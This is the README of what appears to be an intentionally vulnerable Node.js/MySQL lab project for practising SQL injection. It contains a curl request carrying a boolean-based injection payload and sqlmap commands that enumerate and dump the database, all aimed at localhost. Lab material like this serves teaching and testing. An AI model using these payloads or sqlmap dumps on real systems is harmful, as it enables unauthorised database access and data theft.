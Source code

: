 # SQL Injection test

## How to run this project
```bash
# have an instance of mysql running and change '/infra/db/connection.js'
# to access this instance
# and then you can execute the project with:
$ npm install
$ npm run migrate
$ npm run seed
# an alternative is:
$ docker-compose up
```

## Vulnerabilities
```bash
curl http://localhost:8080/products?product=") OR "1"="1" OR "1" like ("
```
- [Boolean-based blind test](https://beaglesecurity.com/blog/vulnerability/boolean-based-blind-sql-injection.html)

Simple demonstration of the error: `?product=") OR "1"="1" OR "1" like ("`

### SQLMap
[Kali tools - SQLMap](https://www.kali.org/tools/sqlmap/)

#### Install it

```bash
$ sudo apt install sqlmap

```

#### Use it

```bash
# List databases
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --dbs

# List tables
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> --tables

# List columns
$ sqlmap -u "http://localhost:8080/products?sortBy=1" --col

# View table data 
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -T <table_name>

# Or list all data 
$ sqlmap -u "http://localhost:8080/products?sortBy=1" -D <db_name> -a
```
